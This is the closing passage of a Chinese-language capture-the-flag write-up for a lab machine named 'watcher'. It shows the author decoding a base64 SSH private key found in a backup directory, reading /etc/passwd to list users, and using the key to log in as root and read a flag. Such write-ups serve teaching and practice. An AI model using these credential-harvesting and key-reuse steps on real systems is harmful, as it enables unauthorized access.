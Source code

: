 查看key.b64是base64编码的东西，解码：

    will@watcher:~$ cat /opt/backups/key.b64 | base64 -d

我们得到ssh私钥，将其保存到攻击机的test1.txt

由于我们不确定这是哪个用户的私钥，我们通过/etc/passwd看看还有哪个用户：

    cat /etc/passwd | grep home
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    will:x:1000:1000:will:/home/will:/bin/bash
    ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin
    mat:x:1002:1002:,#,,:/home/mat:/bin/bash
    toby:x:1003:1003:,,,:/home/toby:/bin/bash

基本上除了root已经没有其他合适的人选了

尝试使用该私钥登录root：

    ┌──(root🐦kali)-[/home/sugobet]
    └─# chmod 400 ./test1.txt

    ┌──(root🐦kali)-[/home/sugobet]
    └─# ssh root@10.10.109.194 -i ./test1.txt

很幸运，该私钥没有设置密码，因此我们登录root成功

    root@watcher:~# ls -la /root
    total 40
    drwx------  6 root root 4096 Dec  3  2020 .
    drwxr-xr-x 24 root root 4096 Dec 12  2020 ..
    lrwxrwxrwx  1 root root    9 Dec  3  2020 .bash_history -> /dev/null
    -rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
    drwx------  2 root root 4096 Dec  3  2020 .cache
    -rw-r--r--  1 root root   31 Dec  3  2020 flag_7.txt
    drwx------  3 root root 4096 Dec  3  2020 .gnupg
    drwxr-xr-x  3 root root 4096 Dec  3  2020 .local
    -rw-r--r--  1 root root  148 Aug 17  2015 .profile
    -rw-r--r--  1 root root   66 Dec  3  2020 .selected_editor
    drwx------  2 root root 4096 Dec  3  2020 .ssh
    root@watcher:~# cat /root/flag_7.txt

## 结束

整体来说还是非常简单的，基本没有难的点，考横向移动比较多，但都是非常非常基础的点，稍微有点无聊
